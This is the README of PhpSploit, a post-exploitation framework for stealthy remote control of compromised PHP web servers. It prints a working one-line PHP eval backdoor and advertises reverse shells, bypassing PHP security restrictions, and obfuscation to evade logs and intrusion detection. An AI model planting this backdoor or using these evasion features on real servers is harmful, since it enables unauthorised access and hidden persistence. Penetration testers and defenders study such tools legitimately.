 ### PhpSploit: _Furtive post-exploitation framework_

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[![travis build](https://travis-ci.org/nil0x42/phpsploit.svg?branch=master)](https://travis-ci.org/nil0x42/phpsploit)
[![codacy code quality](https://api.codacy.com/project/badge/Grade/b998fe23c25f40a78c6c35c722bb9fa0)](https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard)
[![lgtm alerts](https://img.shields.io/lgtm/alerts/g/nil0x42/phpsploit.svg?logo=lgtm&logoWidth=18)](https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/)
[![codecov coverage](https://codecov.io/gh/nil0x42/phpsploit/branch/master/graph/badge.svg)](https://codecov.io/gh/nil0x42/phpsploit)
[![codeclimate maintainability](https://api.codeclimate.com/v1/badges/6986200c1729b4a70a40/maintainability)](https://codeclimate.com/github/nil0x42/phpsploit/maintainability)
[![license](https://img.shields.io/github/license/nil0x42/phpsploit.svg)](https://github.com/nil0x42/phpsploit/blob/master/LICENSE)
[![requires.io requirements](https://requires.io/github/nil0x42/phpsploit/requirements.svg?branch=master)](https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master)


![phpsploit demo](data/img/phpsploit-demo.png)

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):

<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore-start -->
<!-- markdownlint-disable -->
<table>
  <tr>
    <td align="center"><a href="https://exdemia.com"><img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt=""/><br /><sub><b>nil0x42</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Code">💻</a> <a href="#infra-nil0x42" title="Infrastructure (Hosting, Build-Tools, etc)">🚇</a> <a href="#plugin-nil0x42" title="Plugin/utility libraries">🔌</a> <a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Tests">⚠️</a></td>
    <td align="center"><a href="https://github.com/shiney-wh"><img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt=""/><br /><sub><b>shiney-wh</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=shiney-wh" title="Code">💻</a> <a href="#plugin-shiney-wh" title="Plugin/utility libraries">🔌</a></td>
    <td align="center"><a href="http://wapiflapi.github.io"><img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt=""/><br /><sub><b>Wannes Rombouts</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=wapiflapi" title="Code">💻</a> <a href="#maintenance-wapiflapi" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://yurilz.com"><img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt=""/><br /><sub><b>Amine Ben Asker</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz" title="Code">💻</a> <a href="#maintenance-yurilaaziz" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://twitter.com/jnazario"><img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt=""/><br /><sub><b>jose nazario</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=paralax" title="Documentation">📖</a> <a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax" title="Bug reports">🐛</a></td>
    <td align="center"><a href="http://wikisecure.net"><img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt=""/><br /><sub><b>Sujit Ghosal</b></sub></a><br /><a href="#blog-sujit" title="Blogposts">📝</a></td>
    <td align="center"><a href="https://github.com/sohelzerdoumi"><img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt=""/><br /><sub><b>Zerdoumi</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi" title="Bug reports">🐛</a></td>
  </tr>
  <tr>
    <td align="center"><a href="https://github.com/tristandostaler"><img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt=""/><br /><sub><b>tristandostaler</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://github.com/rohantarai"><img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt=""/><br /><sub><b>Rohan Tarai</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://triop.se"><img src="https://avatars1.githubusercontent.com/u/190150?v=4" width="100px;" alt=""/><br /><sub><b>Jonas Lejon</b></sub></a><br /><a href="#blog-jonaslejon" title="Blogposts">📝</a></td>
  </tr>
</table>

<!-- markdownlint-enable -->
<!-- prettier-ignore-end -->
<!-- ALL-CONTRIBUTORS-LIST:END -->

_This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome!_
